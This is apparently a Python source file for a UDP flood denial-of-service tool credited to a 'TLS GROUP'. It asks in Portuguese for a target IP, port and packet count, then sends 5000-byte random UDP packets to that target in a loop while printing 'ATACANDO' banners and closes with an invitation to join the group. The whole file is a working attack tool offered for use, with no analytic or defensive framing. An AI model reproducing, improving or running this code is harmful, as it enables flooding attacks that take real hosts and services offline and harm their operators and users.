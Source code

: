 import os,time,socket,random

os.system("cls")
s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
packet=random._urandom(5000)
sent = 0

class dosattack():
    def __init__(self,ipaddress,port,packets):
        self.ipaddress=ipaddress
        self.port=port
        self.packets=packets

    def __str__(self):
        return " \u001b[33m__Informations__ \n\n \u001b[31;1mIp Address: \u001b[32;1m{}\n \u001b[31;1mPort: \u001b[32;1m{}\n \u001b[31;1mPacket: \u001b[32;1m{}".format(self.ipaddress,self.port,self.packets)

    def __len__(self):
        return self.packets

while True:
	try:
		print("""
         \u001b[36m______________________________________________________
                \u001b[36mTLS\u001b[31;1m GROUP \u001b[36m OWNA
                    \u001b[37mBY \u001b[36 WWOLF
        ______________________________________________________
                    """)
		time.sleep(3)
		ipp=input(" \u001b[32;1mCOLOQUE O IP DO ALVO:\u001b[35;1m ")
		pport=int(input(" \u001b[32;1mCOLOQUE A PORTA:\u001b[35;1m "))
		packetss=int(input(" \u001b[32;1mNUMERO DE PACOTES:\u001b[35;1m "))
		os.system("cls")
		break
	except ValueError:
		print("\n \u001b[31mQUERO SO O IP!!")
		time.sleep(2)
		os.system("cls")

print("""
         \u001b[36m______________________________________________________
                \u001b[36m TLS \u001b[31;1m GROUP  \u001b[36m OWNA
                \u001b[37m TA SENTINDO A ENERGIA? \u001b[36m
        ______________________________________________________
                    """)

atak1=dosattack(ipp,pport,packetss)
print(atak1)
os.system("cls")

for i in range(packetss):
    print("""
             \u001b[36m______________________________________________________
                   \u001b[36m TLS \u001b[31;1m GROUP  \u001b[36m OWNA
                \u001b[37m BY \u001b[36m WWOLF
            ______________________________________________________
                        """)
    print(atak1)
    s.sendto(packet,(ipp,pport))
    sent = sent + 1
    print("\n \u001b[33mATACANDO...>>> \u001b[31m{}".format(sent))
    os.system("cls")

print("""
         \u001b[36m______________________________________________________
                \u001b[36m TLS \u001b[31;1m GROUP  \u001b[36mS OWNA
                \u001b[37m BY \u001b[36m WOLF
        ______________________________________________________
                    """)
print(atak1)
print("\n \u001b[32mAtaque Concluido...")
print("\n \u001b[32mQUER FAZER PARTE DA TLS?? CHAME NO TWITTER (VOU CRIAR UM AINDA)...")
input()
